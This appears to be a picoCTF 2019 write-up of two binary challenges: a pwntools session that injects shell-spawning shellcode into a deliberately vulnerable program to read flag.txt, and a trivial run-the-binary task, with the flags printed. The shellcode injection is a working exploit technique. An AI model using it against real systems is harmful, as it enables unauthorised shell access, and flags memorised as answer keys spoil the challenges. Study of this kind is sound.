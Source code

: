 <center><h1>Binary</h1></center>
<br><br>
<center><h2>handy-shellcode [50]</h2></center>
<br>
Q: This *[program](/picoctf2019/files/handyShellcodeVuln)* executes any shellcode that you give it. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/handy-shellcode_1_ebc60746fee43ae25c405fc75a234ef5 on the shell server. *[Source](/picoctf2019/files/handyShellcodeVuln.c)*.

A: It tells us exactly what to do. Easiest way to spawn a shell would be to use pwn tools with python. Log into the shell server and navigate to ```/problems/handy-shellcode_1_ebc60746fee43ae25c405fc75a234ef5``` which is where the ```vuln``` binary and ```flag.txt``` are stored. Here we are going to spawn our shell. Using the 4 lines of python code below we are able to grab the flag.
```
# cd /problems/handy-shellcode_1_ebc60746fee43ae25c405fc75a234ef5
/problems/handy-shellcode_1_ebc60746fee43ae25c405fc75a234ef5$ python
>>> from pwn import *
>>> sh = process('./vuln')
[x] Starting local process './vuln'
[+] Starting local process './vuln': pid 2276666
>>> sh.sendlineafter(':\n', asm(shellcraft.i386.linux.sh()))
'Enter your shellcode'
>>> sh.interactive()
[*] Switching to interactive mode
jhh///sh/bin��h�4$ri1�QjY�Q��1�j
                                X̀
Thanks! Executing now...

cat flag.txt
picoCTF{h4ndY_d4ndY_sh311c0d3_2cb0ff39}
```
Flag:```picoCTF{h4ndY_d4ndY_sh311c0d3_2cb0ff39}```
<br>
<center><h2>practice-run-1</h2></center>
<br>
Q: You're going to need to know how to run programs if you're going to get out of here. Navigate to /problems/practice-run-1_0_62b61488e896645ebff9b6c97d0e775e on the shell server and run this *[program](/picoctf2019/files/run_this)* to receive a flag.

A: Two ways to do this.
1. Navigate to ```/problems/practice-run-1_0_62b61488e896645ebff9b6c97d0e775e``` and execute the program
```
# ./run_this
picoCTF{g3t_r3adY_2_r3v3r53}
```
2. Download the file to your computer, make the file executable and then run it.
```
# chmod +x run_this
# ./run_this
picoCTF{g3t_r3adY_2_r3v3r53}
```
Flag:```picoCTF{g3t_r3adY_2_r3v3r53}```
<br>
